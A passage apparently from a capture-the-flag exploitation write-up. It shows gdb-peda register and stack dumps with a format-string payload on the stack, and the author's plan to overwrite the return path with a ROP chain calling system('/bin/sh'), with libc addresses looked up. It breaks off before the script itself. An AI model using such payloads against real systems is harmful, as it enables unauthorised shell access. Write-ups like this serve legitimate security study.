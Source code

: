 ```
[----------------------------------registers-----------------------------------]
EAX: 0x0 
EBX: 0x31256333 ('3c%1')
ECX: 0xbfe1ba28 --> 0x401864e0 --> 0xfbad2a84 
EDX: 0x63 ('c')
ESI: 0x0 
EDI: 0x0 
EBP: 0x6e682436 ('6$hn')
ESP: 0xbfe1ba98 ("-%263c%17$hn-%1661c%18$hn")
EIP: 0x8048683 (<bf+407>:   ret)
EFLAGS: 0x200296 (carry PARITY ADJUST zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x804867e <bf+402>:  add    esp,0x24
   0x8048681 <bf+405>:  pop    ebx
   0x8048682 <bf+406>:  pop    ebp
=> 0x8048683 <bf+407>:  ret    
   0x8048684 <main>:    push   ebp
   0x8048685 <main+1>:  mov    ebp,esp
   0x8048687 <main+3>:  and    esp,0xfffffff0
   0x804868a <main+6>:  sub    esp,0x7540
[------------------------------------stack-------------------------------------]
0000| 0xbfe1ba98 ("-%263c%17$hn-%1661c%18$hn")
0004| 0xbfe1ba9c ("3c%17$hn-%1661c%18$hn")
0008| 0xbfe1baa0 ("7$hn-%1661c%18$hn")
0012| 0xbfe1baa4 ("-%1661c%18$hn")
0016| 0xbfe1baa8 ("61c%18$hn")
0020| 0xbfe1baac ("18$hn")
0024| 0xbfe1bab0 --> 0x6e ('n')
0028| 0xbfe1bab4 --> 0x0 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
0x08048683 in bf ()
```
The top of the stack contained the format string I sent to bf. The ret instruction which would be executed next would pop the value at the top of the stack into EIP and execution would be redirected there. I just needed to add in my ROP payload in this area so that when ret executed, it would redirect execution to the next gadget.  

I found the majority of the gadgets I needed from libc-2.13.so. With ASLR already disabled, I looked up the addresses for system() and /bin/sh: 

```
gdb-peda$ p system
$1 = {<text variable, no debug info>} 0x40062000 <system>
gdb-peda$ find "/bin/sh"
Searching for '/bin/sh' in: None ranges
Found 1 results, display max 1 items:
libc : 0x40161b94 ("/bin/sh")
```

After a couple of hours, I crafted the following ROP payload that called system("/bin/sh") into a Python script: 

